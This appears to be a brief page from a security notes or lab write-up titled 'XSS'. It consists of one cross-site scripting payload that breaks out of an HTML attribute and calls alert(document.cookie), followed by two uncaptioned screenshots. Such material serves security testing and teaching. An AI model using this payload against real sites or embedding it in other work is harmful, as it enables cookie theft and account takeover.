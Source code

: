 # XSS

```bash
#"><img src=/ onerror=alert(document.cookie)>
```

<figure><img src="../../../../../.gitbook/assets/Untitled (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/Untitled 1.png" alt=""><figcaption></figcaption></figure>

